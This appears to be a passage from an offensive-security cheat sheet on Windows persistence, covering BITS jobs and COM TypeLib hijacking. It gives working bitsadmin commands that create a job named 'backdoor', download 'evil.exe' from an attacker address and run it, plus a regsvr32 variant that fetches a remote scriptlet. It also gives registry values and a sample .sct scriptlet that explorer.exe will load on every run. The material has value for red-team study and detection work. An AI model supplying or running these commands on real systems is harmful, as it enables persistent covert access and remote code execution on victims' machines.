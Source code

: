 ### BITS Jobs

```powershell
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```

### COM TypeLib

* [CICADA8-Research/TypeLibWalker](https://github.com/CICADA8-Research/TypeLibWalker) - TypeLib persistence technique

Use [sysinternals/procmon](https://learn.microsoft.com/fr-fr/sysinternals/downloads/procmon) to find `RegOpenKey` with the status `NAME NOT FOUND`. The process `explorer.exe` is a good target, as it will spawn your payload every time it is run.

```ps1
Path: HKCU\Software\Classes\TypeLib\{CLSID}\1.1\0\win32
Path: HKCU\Software\Classes\TypeLib\{CLSID}\1.1\0\win64
Name: anything
Type: REG_SZ
Value: script:C:\1.sct
```

Example of content for `1.sct`.

```xml
<?xml version="1.0"?>
<scriptlet>
    <registration
        description="explorer"
        progid="explorer"
        version="1.0"
        classid="{66666666-6666-6666-6666-666666666666}"
        remotable="true">
    </registration>
    <script language="JScript">
        <![CDATA[
            var WShell = new ActiveXObject("WScript.Shell");
            WShell.Run("calc.exe");
        ]]>
    </script>
</scriptlet>
```
